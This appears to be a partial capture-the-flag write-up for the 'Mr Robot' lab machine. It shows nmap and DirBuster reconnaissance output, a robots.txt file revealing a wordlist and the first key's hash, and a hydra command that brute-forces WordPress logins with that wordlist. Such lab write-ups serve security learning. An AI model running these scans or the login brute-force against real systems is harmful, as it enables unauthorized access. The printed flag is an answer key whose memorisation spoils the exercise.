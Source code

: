 ```yaml
---
description: Based on the Mr. Robot show.
---
```


# Mr Robot CTF

## Scanner

> Generated on **Wed Jul 28 11:47:56 2021** with `nmap 7.91`.

```bash
nmap -sV -n -v -Pn -p- -T4 -A --open -oX portScan.xml 10.10.235.2
```

## Open Ports and Running Services

### 10.10.235.2

| Port | State | Service | Version |
| :--- | :--- | :--- | :--- |
| 80/tcp | open | http | Apache httpd |
| 443/tcp | open | http | Apache httpd |

{% tabs %}
{% tab title="OWASP DirB" %}
/usr/share/dirbuster/wordlists/directory-list-lowercase-2.3-medium.txt

\*
{% endtab %}

{% tab title="Second Tab" %}
```bash
DirBuster 1.0-RC1 - Report
http://www.owasp.org/index.php/Category:OWASP_DirBuster_Project
Report produced on Wed Jul 28 12:49:07 EDT 2021
--------------------------------

http://10.10.235.2:80
--------------------------------
Directories found during testing:

Dirs found with a 403 response:

/images/
/blog/
/video/
/audio/
/js/
/css/
/admin/js/
/admin/images/
/js/vendor/
/admin/js/vendor/

Dirs found with a 200 response:

/
/admin/
/0/
/feed/
/image/
/wp-content/
/wp-login/
/wp-content/index/
/images/feed/
/image/2006/
/image/12/
/image/11/
/image/10/
/image/2005/
/image/1/
/image/09/
/blog/feed/
/image/08/
/image/01/
/image/06/
/image/2/
/image/07/
/image/05/
/image/04/
/image/03/
/image/02/
/image/3/
/image/13/
/image/4/
/image/14/
/image/15/
/js/feed/
/image/16/
/image/2004/
/image/18/
/image/20/
/image/21/
/wp-content/feed/
/image/5/
/wp-content/themes/
/image/22/
/image/6/
/image/19/
/image/24/
/image/2007/
/image/23/
/image/17/
/image/27/
/image/26/
/image/9/
/image/30/

Dirs found with a 301 response:

/rss/
/atom/
/images/rss/
/rss2/
/blog/rss/
/js/rss/
/wp-content/rss/
/image/rss/
/images/atom/
/atom/rss/
/audio/rss/
/feed/rss/
/0/rss/
/blog/atom/
/admin/rss/
/login/rss/
/rss/rss/
/video/rss/
/image/3/rss/
/image/02/rss/

Dirs found with a 302 response:

/login/


--------------------------------
Files found during testing:

Files found with a 200 responce:

/wp-login.php
/js/vendor/vendor-48ca455c.js.pagespeed.jm.V7Qfw6bd5C.js


--------------------------------

```
{% endtab %}
{% endtabs %}

{% embed url="http://10.10.105.131/robots.txt" %}

{% tabs %}
{% tab title="robots.txt" %}
```text
User-agent: *
fsocity.dic
key-1-of-3.txt
```
{% endtab %}

{% tab title="key-1-of-3.txt" %}
```text
073403c8a58a1f80d943455fb30724b9
```
{% endtab %}

{% tab title="curl" %}
```
curl -v http://10.10.105.131/wp-login.php
```
{% endtab %}

{% tab title="curl output" %}
```
*   Trying 10.10.105.131:80...
* Connected to 10.10.105.131 (10.10.105.131) port 80 (#0)
> GET /wp-login.php HTTP/1.1
> Host: 10.10.105.131
> User-Agent: curl/7.74.0
> Accept: */*
> 
* Mark bundle as not supporting multiuse
< HTTP/1.1 200 OK
< Date: Wed, 28 Jul 2021 17:16:05 GMT
< Server: Apache
< X-Powered-By: PHP/5.5.29
< Expires: Wed, 11 Jan 1984 05:00:00 GMT
< Cache-Control: no-cache, must-revalidate, max-age=0
< Pragma: no-cache
< X-Frame-Options: SAMEORIGIN
< Set-Cookie: wordpress_test_cookie=WP+Cookie+check; path=/
< Vary: Accept-Encoding
< X-Mod-Pagespeed: 1.9.32.3-4523
< Cache-Control: max-age=0, no-cache
< Content-Length: 2671
< Content-Type: text/html; charset=UTF-8
< 

```
{% endtab %}

{% tab title="" %}
```
hydra -L fsocity.dic \
      -P fsocity.dic 10.10.105.131 \
      -V http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location' 
```
{% endtab %}
{% endtabs %}





